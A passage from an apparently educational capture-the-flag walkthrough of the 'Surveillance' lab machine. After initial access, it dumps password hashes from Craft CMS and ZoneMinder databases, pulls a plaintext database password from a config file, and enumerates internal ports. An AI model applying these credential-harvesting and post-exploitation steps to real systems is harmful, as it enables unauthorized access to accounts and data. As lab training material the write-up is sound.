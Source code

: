 ```
| assets                     |
<...SNIP...>
| users                      |
| volumefolders              |
| volumes                    |
| widgets                    |
+----------------------------+
63 rows in set (0.000 sec)
```
Within the users, we can find a hash for user Matthew:
```
MariaDB [craftdb]> select firstname,lastname,email,password from users;
+-----------+----------+------------------------+--------------------------------------------------------------+
| firstname | lastname | email                  | password                                                     |
+-----------+----------+------------------------+--------------------------------------------------------------+
| Matthew   | B        | admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe |
+-----------+----------+------------------------+--------------------------------------------------------------+
1 row in set (0.000 sec)
```
Looking in the home folder, we can see that Matthew is a user on this box:
```
www-data@surveillance:~/html/craft$ ls -al /home
total 16
drwxr-xr-x  4 root       root       4096 Oct 17 11:20 .
drwxr-xr-x 18 root       root       4096 Nov  9 13:19 ..
drwxrwx---  3 matthew    matthew    4096 Nov  9 12:45 matthew
drwxr-x---  2 zoneminder zoneminder 4096 Nov  9 12:46 zoneminder
```
Unfortunately, cracking the password with a generic `rockyou.txt` does not yield results in a timely manner. Using the app's `database.php`, we might find potential credentials for ZoneMinder:
```
-rw-r--r-- 1 root zoneminder 3503 Oct 17 11:32 /usr/share/zoneminder/www/api/app/Config/database.php
                'password' => ZM_DB_PASS,
                'database' => ZM_DB_NAME,
                'host' => 'localhost',
                'password' => 'ZoneMinderPassword2023',
                'database' => 'zm',
                                $this->default['host'] = $array[0];
                        $this->default['host'] = ZM_DB_HOST;
```
From this database, we can find a new hash for admin.
```
MariaDB [zm]> select Username,Password from Users;
+----------+--------------------------------------------------------------+
| Username | Password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd. |
+----------+--------------------------------------------------------------+
1 row in set (0.000 sec)
```
This also does not crack. However, when we enumerate open ports, we can find an internal port open on port 8080:
```
www-data@surveillance:/tmp$ netstat -ntlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
```